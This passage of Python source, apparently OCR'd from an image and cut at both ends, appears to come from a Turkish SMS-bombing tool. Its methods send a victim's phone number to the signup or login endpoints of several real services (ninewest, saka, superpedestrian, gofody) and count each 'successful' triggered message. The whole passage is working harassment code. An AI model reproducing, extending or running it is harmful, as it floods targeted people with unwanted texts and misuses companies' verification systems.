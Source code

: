             "phonenumber" : f"({str(self.phone)[0:3]}) {str(self.phone)[3:6]} {str(self.phone)[6:8]} {str(self.phone)[8:10]}",
            "registerContract" : True,
            "registerMethod" : "mail",
            "version" : "3"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["success"]
        
        if r1 == True:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> ninewest")
            self.adet += 1
        else:
            raise
      except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> ninewest")

    #saka
    def saka(self):
     try:
        url = "https://mobilcrm2.saka.com.tr/api/customer/login"
        payload = {
            "gsm" : f"0{self.phone}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["status"]
        if r1 == 1:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> saka")
            self.adet += 1
        else:
            raise
     except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> saka")

    #superpedestrian
    def superpedestrian(self):
      try:
        url = "https://consumer-auth.linkyour.city/consumer_auth/register"
        payload = {
            "phone_number" : f"+90{str(self.phone)[0:3]} {str(self.phone)[3:6]} {str(self.phone)[6:10]}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["detail"]
        if r1 == "Ok":
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> superpedestrian")
            self.adet += 1
        else:
            raise
      except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> superpedestrian")

    #gofody -- execute.submit burdan devam
    def gofody(self):
     try:
        url = "https://backend.gofody.com/api/v1/enduser/register/"
        payload = {
            "country_code": "90",
            "phone": f"{self.phone}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["success"]
        if r1 == True:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> gofody")
            self.adet += 1
        else: